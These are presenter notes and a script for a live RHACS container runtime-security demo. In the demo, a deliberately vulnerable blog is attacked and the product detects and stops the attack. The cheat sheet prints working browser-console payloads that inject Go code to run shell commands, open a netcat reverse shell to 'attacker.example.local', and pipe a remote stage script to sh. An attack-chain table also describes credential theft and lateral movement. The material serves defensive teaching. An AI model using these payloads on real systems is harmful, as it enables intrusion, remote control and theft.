








Start here
40 minutes · 3 intro slides · everything else live in RHACS
Secure today. Maybe not tomorrow.
RHACS rescans every running image every 4 hours, so you know the day it changes. But a scan only sees
what is known. A scan sees what is known. Runtime sees what happens. RHACS does both.
Audience: teams that think of RHACS (or container security in general) as vulnerability management. The goal is not to dismiss that — it's to show it is the first chapter, and that the product they already own does the rest.
- The full talk, word for word (speaker notes): SCRIPT.md
- One page to memorize: CHEATSHEET.md
- This page: how to speak to the room, run of show, Q&A and checklist. Same content as a web page: TALK.html
- Setup and the demo mechanics: ../README.md
- What every act looks like on screen: WALKTHROUGH.md
Cheat sheet
One page to memorize. Read it the night before. Keep it next to the laptop. The full text is in SCRIPT.md.
Fire the attack from the browser (no terminal)
Open https://blog-unhackable.apps-crc.testing/write → F12 → Console → paste. The /write box only forwards real links, so the attacker goes around it and POSTs to the API. Same code path, same detections. (In TALK.html each box has a Copy button.)
Step 1 — show it runs any command (who am I, what is in my env):
const cmd = "id; env";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
.then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));Step 2 — later, the reverse shell (C2 listener up first), or swap cmd for the miner curl -s http://attacker.example.local:8080/stage.sh | sh:
const cmd = "nohup nc attacker.example.local 4444 -e /bin/sh >/dev/null 2>&1 & echo '[+] reverse shell launched'";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
.then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));The spine — if you forget everything, say this
Every check happens during build and during deployment — before the application runs. Secure today. Maybe not tomorrow. RHACS rescans every 4 hours. But no scan can see what nobody knows yet, what nobody noticed, or what somebody hid. A scan sees what is known. Runtime sees what happens. RHACS does both.
The five words
| Word | What RHACS knows | Where it pays off |
|---|---|---|
| Made of | libraries, packages, where it comes from | Act 1: zero CVEs. Tour: still zero |
| Deployed | user, privileges, secrets, exposure | Act 1: hardened. Act 3: no token, no secrets — only fake keys |
| Talks to | services, namespaces, the internet | Act 3: blog → payments. Act 4: three connections to the attacker |
| Behaves | programs, files, what is normal | Act 2: one program in the normal list. Act 4: file dropped in /tmp |
| Acts | kills the pod, shows what to block | Act 5: kill, then the network policy |
Numbers to get right
| Number | What it is |
|---|---|
| 0 | CVEs — v1, and still v2 |
| 1 | dependency (yaegi). 1 program in the normal list: the blog itself |
| 4 hours | RHACS rescans every running image |
| 2 · 1 · 1 | writable folders · secret · port (the Risk page) |
| 2 | trap files: ~/.aws/credentials and /opt/blog/.env |
| 3 | connections to the attacker: download, mining pool, shell |
| < 1 second | from the attacker's command to the pod kill |
| end of October · up to 5,000 | the backdoored Claude Code extension in the Cursor store |
Beat by beat
| Time | Beat | Key lines | Do |
|---|---|---|---|
| 0:00 | Slide 1 — the pipeline | "This is my release pipeline." · "I built a small blog for today's demo." · "Every check happens during build and during deployment — before the application runs." · "Today is about what happens after deploy." · "Remember this slide. For what is missing." | Point along the jobs, then the summary, then deploy |
| 1:30 | Slide 2 — today and tomorrow | "Secure today. Maybe not tomorrow." · "Scanned yesterday: clean. Is it still clean today?" · "RHACS rescans every running image every four hours." · "A scan only finds what is known. Three things it cannot see." | Click the three cards |
| three cards | One: nobody knows yet — zero-day. Two: nobody noticed — misconfiguration. Three: somebody hid — supply chain. | ||
| what helps | "Trusted sources. Signed images. Rescanning. Do all of it." · "It lowers the risk. It does not remove it." · Claude Code: "a trusted tool, from a trusted store — and no scanner knew." · "Watch what your applications do." | ||
| 3:30 | Slide 3 — five words | Made of · Deployed · Talks to · Behaves · Acts · "Today, I test that. Live." | One word per click |
| 5:00 | Act 1 — All green | "This is my blog." · "First word: made of — zero." · "Second word: deployed — very short list." · "Violations: none." · "So — is it secure?" | Blog → Check links · Vuln Mgmt → blog:v1 · Risk · Violations. Pause 3 s |
| 8:00 | The pivot | "Writers wanted more than yes or no — a rule." · "I gave it the power to run commands." · "One clean library. Zero CVEs. And one big vulnerability." | |
| 8:30 | Act 2 — Day zero | "This is a zero-day. My own." · "You cannot tell a mistake from a backdoor. No scanner can." · "Fourth word: behaves." · "A backdoor can look clean. It cannot behave clean." | scripts/demo.sh act2 · Violations → Unauthorized process |
| 12:00 | Act 3 — Loot | "No token. No secrets. The hardening works." · "Cloud keys!" — "I put them there." · "Credit card numbers. Read by my blog." · "Nothing in the pipeline about the network." · "Nobody decided that. Nobody noticed it." · "Third word: talks to." | scripts/demo.sh act3 · Honeytoken · slide 1 callback · Unexpected network flow · Network Graph |
| 17:00 | Act 4 — Persistence and profit | "The blog called the attacker." · "A live shell, inside my 'secure' application." · "Your cloud bill, mining for someone else." · "A rule for 'this container changed'." · "Seeing is not stopping." | Terminal B scripts/attacker.sh c2 · Terminal A scripts/demo.sh act4 · type id, hostname, ps · Violations · Container drift · Graph |
| 23:00 | Act 5 — Respond | "Last word: acts." · "The rules are files in Git." · "Every command costs them the pod." · "Time is what I was missing." · "The kill stopped this attacker. The network policy stops the next one." | scripts/demo.sh act5 · point at Terminal B (dead) · Enforcement tab |
| 29:00 | Act 6 — Fix forward | "Take the rule, run it as code — that is the bug." · "Still zero CVEs." · "Runtime security did not replace the fix. It kept me safe until the fix was ready." | Show the diff · scripts/demo.sh act6 |
| 32:00 | The tour | "The evidence is already there." · "Still zero. It was right the whole time. And it saw nothing." · five words, one line each | Violations · Graph · Risk · Vuln Mgmt |
| 37:00 | The close | Three questions: Which programs should run? Would you know in one minute? How fast could you stop it? · "A scan sees what is known. Runtime sees what happens. RHACS does both." · click: "See it, and stop it, while it happens." · click: "Fix it, before the vulnerability is public." · "Thank you." | Step away from the keyboard |
Q&A — one line each
| They ask | You say |
|---|---|
| Just a bad developer? | A normal shortcut. It passed every check. |
| We use trusted vendors. | Keep doing it. It lowers the risk. It does not remove it. |
| We sign and have SBOMs. | A signature proves who built it. Not that the code is honest. |
| We have a WAF. | Maybe it blocks this request. It has no rule for a zero-day. |
| Distroless? | Good. But attackers bring their own tools — like the miner. |
| We have EDR. | RHACS adds the context — which app, what is normal — and acts in Kubernetes. |
| Kill breaks production. | One pod, replaced in seconds. Alert first. Enforce later. |
| Anything before the kill? | Less than one second. The network policy removes even that. |
| What triggers the kill? | A program outside the normal list. |
| Port 443? | Allowed — you still see the new destination on the graph. Add an egress allow-list. |
| False alarms? | The normal list is per application. A trap file almost never. |
Never say
"unhackable" · "we" (it is I — I built it) · "like yours" · "every CVE was a zero-day" · "a clean scan is a timestamp" · "nothing real to steal" · idioms
The arc
- The promise — a release pipeline where every job is green: zero CVEs, every best practice.
- Today and tomorrow — everything checked in the pipeline and at deploy is true only at the moment you checked. New vulnerabilities are disclosed every day, faster than ever, and the window to fix keeps shrinking. RHACS keeps up — it rescans every running image every 4 hours, so new CVEs show up without a rebuild. But a fresh scan still only finds what is known. Zero-days have no CVE yet, misconfiguration isn't on anyone's scanner, and supply-chain attacks plant vulnerabilities that scan clean — and get signed, if your pipeline signs.
- What's watching — something that knows every application: what it's made of, how it's deployed, who it talks to, how it behaves — and acts when that changes.
- The proof — break in live, without a single CVE. Watch RHACS see everything.
- The response — kill to shrink the blast radius now; network enforcement to close the door.
- The fix — fix forward. The scanner was right all along — and saw none of it.
The three threads
| Thread | Where it shows | Line |
|---|---|---|
| What nobody knows yet — zero-days, unknown vulnerabilities | Act 2: evaluating untrusted input as code has no CVE, no advisory, no signature | "This is a zero-day. My own. The scanner says zero. The scanner is right. And it does not help." |
| What nobody noticed — misconfiguration | Act 3: no NetworkPolicy — and no pipeline step that checks for one — so the public blog can reach payments, the Kubernetes API and the internet | "Nobody decided that. Nobody noticed it." |
| What somebody hid — supply-chain attacks | Slide 2 (the backdoored Claude Code extension, Oct 2026) and Act 2: the injectable line could just as well be a malicious PR or a poisoned dependency | "From the code alone, you cannot tell a mistake from a backdoor. And no scanner can." |
Alongside the threads: know where your components come from — trusted sources and trusted vendors, signed and verified images. That lowers the risk a lot; it doesn't remove it (the backdoored Claude Code extension was the real one, in a trusted store). That is why you also watch behavior.
All three are answered the same way: RHACS watches behavior, so intent doesn't matter — a mistake and a backdoor both have to do something. In Act 5 the kill buys time against the unknown and the planted, and the NetworkPolicy fixes the misconfiguration.
The three slides
| Slide | What's on it | Purpose |
|---|---|---|
| 1 — The pipeline | slides/release.png — a release pipeline run (build, image-scan, policy-check, security-approval, deploy-production), every job green; security approval: approved — all checks passed | The promise. Note what's missing: no step about network policy. You come back to that in Act 3. |
| 2 — Today and tomorrow | one line: Secure today. Maybe not tomorrow. | RHACS rescans every 4 hours, so you know the day it changes — for what is known. Zero-days, misconfiguration nobody checks and hidden backdoors stay invisible to any scan. |
| 3 — What's watching | Made of → Deployed → Talks to → Behaves → Acts | What RHACS knows, without naming features ("made of" includes where it comes from: registry, signature). Each word pays off in an act. |

The full spoken text for every slide, act, the tour and the close is in SCRIPT.md — written in simple English for audiences that aren't all native speakers.
The close
*"Keep doing every check, in the pipeline and at deploy. But a pipeline only checks what you know. It cannot see what
nobody knows yet. What nobody noticed. Or what somebody hid. … A scan sees what is known. Runtime
sees what happens. RHACS does both."*
How to speak to this room
The people in the room are CISOs, directors and architects. They decide budgets and architecture. They know security very well. They do not need deep technical words. And for many of them, English is a second or third language. So:
- Short sentences. One idea per sentence. Then a pause.
- Repeat the key messages. For people who listen in a second language, repeating is not boring. It helps.
- Say what it means for the business. Not only "the pod was killed". Say "the attacker lost everything, in less than one second".
- No idioms. They do not translate. Use the plain words below.
- Slow down on numbers and names. "Zero. CVEs." "Less than. One. Second."
- Say the step, then run the command. People must know what to look for before it appears on the screen.
- Point at the screen. Show the one line that matters on each RHACS page. Do not read the whole page.
Words to use
| Instead of… | Say… |
|---|---|
| blast radius | the damage |
| lateral movement, pivot | moving to other systems |
| exfiltrate, loot | steal |
| persistence | staying inside |
| C2, command and control | the attacker's computer |
| RCE, remote code execution | running commands from outside |
| process baseline | the normal list of programs |
| network baseline | the normal list of connections |
| drift | a change inside the container |
| enforcement | an automatic action |
| shift-left | checks before deployment |
| fix forward | ship the fix |
| stop the bleeding, crown jewels, game over, cash out | (no idioms — say the plain thing) |
Terms to explain once, the first time you use them
| Term | Say it like this |
|---|---|
| CVE | A known, published vulnerability. It has a number. Scanners look for these numbers. |
| Zero-day | A vulnerability that nobody knows about yet. No number. No patch. A scanner cannot find it. |
| Container / pod | The box the application runs in. Kubernetes can throw it away and start a new, clean one in seconds. |
| Supply-chain attack | The attacker does not attack you. They attack something you use: a library, a build tool, a base image. |
| Honeytoken | A trap. Fake keys that the application never uses. Only an intruder touches them. |
| Baseline | The normal list: the programs an application runs, and who it talks to. Anything outside the list is an alarm. |
| Network policy | A firewall rule for one application: who it may talk to, and nothing else. |
| Policy as code | The security rules are files in Git. They are reviewed and deployed like application code. |
What it means for the business
Say these in the tour and the close. This is what a CISO takes back to the board.
| Question from the board | Answer from the demo |
|---|---|
| How fast do we see an attack? | In seconds. Every step was an alert, with the exact command, user and time. |
| How fast do we stop it? | Automatically. The pod was killed in less than one second, without a person. |
| Do we need to know the attack in advance? | No. RHACS only needs to know what is normal for each application. |
| Are we safe while the fix is not ready? | Yes. The kill and the network policy protect the application until the fix ships. |
| Do we have evidence for the investigation? | Yes. Every alert, every kill, every connection is recorded. |
| Is this a new tool? | No. It is the same RHACS you use for vulnerability scanning — the other four words. |
Before you walk on stage
The day before
One hour before
Five minutes before
Run of show
| Time | Segment | Screen | Key line |
|---|---|---|---|
| 0:00 | Slide 1 — the pipeline | slide | "Every check happens during build and during deployment. Today is about what happens after." |
| 1:30 | Slide 2 — today and tomorrow | slide | "I scanned it yesterday. It was clean. Is it still clean today?" |
| 3:30 | Slide 3 — what's watching | slide | "Today, I test that. Live." |
| 5:00 | Act 1 — All green | blog, RHACS | "The pipeline was right. So — is it secure?" |
| 8:30 | Act 2 — Day zero | terminal, Violations | "From the code alone, you cannot tell a mistake from a backdoor." |
| 12:00 | Act 3 — Loot | terminal, Violations, Network Graph | "Not one step in the pipeline about who this app may talk to." |
| 17:00 | Act 4 — Persistence & profit | 2 terminals, Violations, Network Graph | "That's an interactive shell, inside your 'secure' app, from outside your cluster." |
| 23:00 | Act 5 — Respond | Policies, terminal, Violations | "The kill stopped this attacker. The NetworkPolicy stops the next one." |
| 29:00 | Act 6 — Fix forward | diff, terminal, image page | "Runtime didn't replace patching. It kept me safe until the patch was ready." |
| 32:00 | Live recap — the tour | RHACS only | "…and this page still says zero." |
| 37:00 | Close | network graph or black | "A scan sees what is known. Runtime sees what happens. RHACS does both." |
| 38:00 | Q&A |
If time runs short: shorten Act 3 (the honeytoken alone is enough). Never cut Act 4 or Act 5 — they're what people retell.
The attack chain
The scripts are deliberately quiet: they run the commands and show the output, nothing else. You narrate. As each command lands, say — in plain words — what the attacker is doing and why it matters. Every stage below maps to a real ATT&CK tactic and to the exact policy that lights up in the RHACS feed (pane 3 in make live), so what you say, what they see on the terminal, and what RHACS flags all line up.
Rule of thumb: say the stage, then run the command. "Now the attacker goes looking for
credentials…" (run it) → RHACS fires → "…and RHACS already knows the app never touches that file."
| Act | Stage — say this | ATT&CK tactic | What the attacker does | RHACS flags (pane 3) |
|---|---|---|---|---|
| 2 | Initial access + execution — "they turn a feature into a shell" | Execution (T1059) | The "Check links" rule engine evaluates their input as Go (yaegi, handed exec.Command) — remote code execution. No CVE, my own bug. | TDR - Unauthorized process |
| 3a | Discovery — "first thing in, they look around" | Discovery | List the service-account dir, grep the environment for secrets. Hardening pays off: nothing there. | TDR - Unauthorized process (every command is a new program) |
| 3b | Credential access — "they go hunting for keys" | Credential Access (T1552.001) | They check the obvious spots — ~/.aws/credentials, the app's .env — and find both: honeytokens I planted. The app never reads them, so any command that reads them = intruder. | TDR - Honeytoken touched |
| 3c | Control-plane recon — "can they reach Kubernetes itself?" | Discovery (T1613) | They probe the in-cluster Kubernetes API (kubernetes.default). No service-account token, so it goes nowhere — but the attempt is the tell. | TDR - Kubernetes API reconnaissance |
| 3d | Lateral movement — "pivot from the blog to the money" | Lateral Movement | From the public blog they reach payments-api and pull card data. The blog has never talked to payments before. | TDR - Unexpected network flow to payments-api |
| 4a | Persistence + C2 — "they stop knocking and move in" | Persistence / Command & Control | A reverse shell calls home to the attacker's laptop — a live, interactive shell from outside the cluster. | TDR - Reverse shell tool executed |
| 4b | Impact — "now they get paid" | Impact (T1496, resource hijacking) | They download and run a crypto miner into /tmp (root FS is read-only). | TDR - Crypto miner, TDR - Container drift |
| 5a | Respond — contain now — "shrink the blast radius" | — | Turn on RHACS Kill Pod enforcement. The attacker's next command kills the pod; Kubernetes replaces it clean in seconds. | enforcement kill (✖ POD KILLED) |
| 5b | Respond — close the door — "stop the next one" | — | Apply a NetworkPolicy: the blog keeps DNS + internet on 80/443 and nothing else. Even an allowed binary can't reach the attacker. | flows blocked |
| 6 | Fix forward — "the real fix, no drama" | — | Ship v2: the rule engine is gone — links are validated natively, nothing is evaluated. Still zero CVEs. | silence — the exploit is gone |
The one-sentence spine: they got in with no CVE (Act 2), looted and pivoted (Act 3), moved in and cashed out (Act 4) — and RHACS saw every move within seconds (the feed), then stopped it two ways (Act 5), before I even shipped the fix (Act 6).
About the notes
40 minutes. Spoken text is plain. Stage directions are in [italics in brackets]. ⏱ marks where you should be on the clock. Pauses are part of the script — take them.
Written in simple English: short sentences, common words, no idioms. The key messages repeat on purpose — it helps people who are listening in a second language.
The three threads — three ways a vulnerability gets into an application with a green pipeline:
- What nobody knows yet — a zero-day. There is no CVE yet, so a scanner cannot find it.
- What nobody noticed — a misconfiguration. Here: no network policy.
- What somebody hid — a supply-chain attack. A bad library, a broken build tool, a hidden change.
And one piece of advice that runs alongside: know where your components come from. Trusted sources lower the risk. They do not remove it. That is why you also watch what your applications do.
Companion docs: TALK.md (run of show, speaking guide, Q&A, checklist) · WALKTHROUGH.md (what every screen looks like) · ../README.md (setup).
Slide 1: the pipeline
slides/release.png — the release pipeline, every job green. Wait a few seconds. Let people read.This is my release pipeline.
I built a small blog for today's demo. Before I deployed it, I made sure it went through the same checks as any application before production.
Build. Image scan. Policy check. Security approval. Deploy.
The image scan found zero vulnerabilities. Zero. Not low. Zero.
The application uses one small open-source library — and it has zero CVEs. The base image is up to date. There is no package manager inside.
It runs without root. Its files are read-only. It has no extra privileges. It has no Kubernetes token.
The policy check found no problems. It has the lowest risk in the whole cluster.
Every check passed. Approved for production.
Everything on this slide is true. In a few minutes, you will see it all in the console.
But look where the pipeline ends: deploy. Every check happens during build and during deployment — before the application runs. After deploy, the application is live. It takes traffic from the internet. And those checks see nothing.
Today is about what happens after deploy, while the application runs. That is runtime security.
And one more thing. Remember this slide. Not for what is on it. For what is missing.
On screen — backup screenshots
"Every job green. Zero CVEs. Every check happens during build and during deployment. Today is about what happens after."
Slide 2: today and tomorrow
Every one of those checks was done before the application runs. So every green check is true at one moment: the moment I checked.
I scanned it yesterday. It was clean. Is it still clean today?
New vulnerabilities are published every day. Your image did not change. What the world knows about it did. Secure today. Maybe not tomorrow.
RHACS handles this. Every four hours, it scans every running image again, with the newest vulnerability data. A new CVE this afternoon — you see it this afternoon. No rebuild. You know the day it changes.
But a scan, even a fresh one, only finds what is known. There are three things it cannot see.
One: what nobody knows yet. A zero-day. No CVE. No patch. Nothing for a scanner to find.
Two: what nobody noticed. A misconfiguration. A setting nobody checked.
Three: what somebody hid. A supply-chain attack. The attacker does not attack you. They attack something you use.
So what helps? Trusted sources and trusted vendors. Signed images, checked before they run. And rescanning, all the time. Do all of it.
It lowers the risk a lot. It does not remove it.
A recent example: Claude Code, end of October. Someone put a backdoor into the real extension, in the Cursor store. It opened a remote connection into the developer's computer. Up to five thousand developers installed it.
They did everything right: a trusted tool, from a trusted store. And no scanner knew about it.
So you need one more thing: watch what your applications do.
Slide 3: what's watching
So what is watching this cluster? RHACS. It knows five things about every application.
What it is made of. Every library, every package. And where it comes from: which registry, and if the image is signed.
How it is deployed. Which user. Which privileges. Which secrets. If it is open to the internet.
Who it talks to. Which services, which namespaces, which addresses on the internet. And who it has never talked to.
How it behaves. Which programs it runs. Which files it changes. What is normal for this one application.
And it acts. A new program, a new file, a new connection — it sees the change. It can kill the pod, automatically, before a person reads the alert. And it shows you which connections to close.
Today, I test that. Live.
Demo time
make web-terminal. In the deck, the slide after "Let's test it." is the live demo: the five terminals, full screen. Click a terminal to type in it. While you type, the keyboard goes to the shell — change slides from the presenter view window, or click a window title bar first (the keyboard comes back to the slides).That is the theory. Now, the test.
On the left: the attacker. On the right: what RHACS sees, live. Watch the right side.
Act 1: All green
This is my blog.
This post is about the newest feature.
This is the editor. A writer pastes a text and clicks Check links —
— and the blog checks every link before it is published. It is useful. The writers love it. I built it in one afternoon.
Now, what did the pipeline say?
First word: made of.
This page shows images with no vulnerabilities. Here is my blog.
Zero critical. Zero important. Zero moderate. Zero low. Nothing to fix.
It also shows where the image comes from. Which registry. Which operating system. And if it is signed. Mine is not signed. In a real production system, you should sign it — and check the signature before it runs.
Second word: deployed.
This is everything about the deployment that adds risk. The list is very short. Two writable folders. One secret. One port inside the cluster. That's all.
No root. Read-only files. No extra privileges. No Kubernetes token. So even if someone gets in, there is no key to the cluster.
And violations: none.
So the pipeline was right. Every check is green.
So — is it secure?
On screen — backup screenshots
"The pipeline was right. 0 CVEs, hardened, lowest risk in the cluster. So — is it secure?"




The pivot
Look at that link checker again. Writers wanted more than a yes or no, so it lets them attach a small rule to check a link.
To run the rules, I used a small Go interpreter — a library called yaegi. Zero CVEs. And to make the rules more useful, I gave it one more thing: the power to run commands.
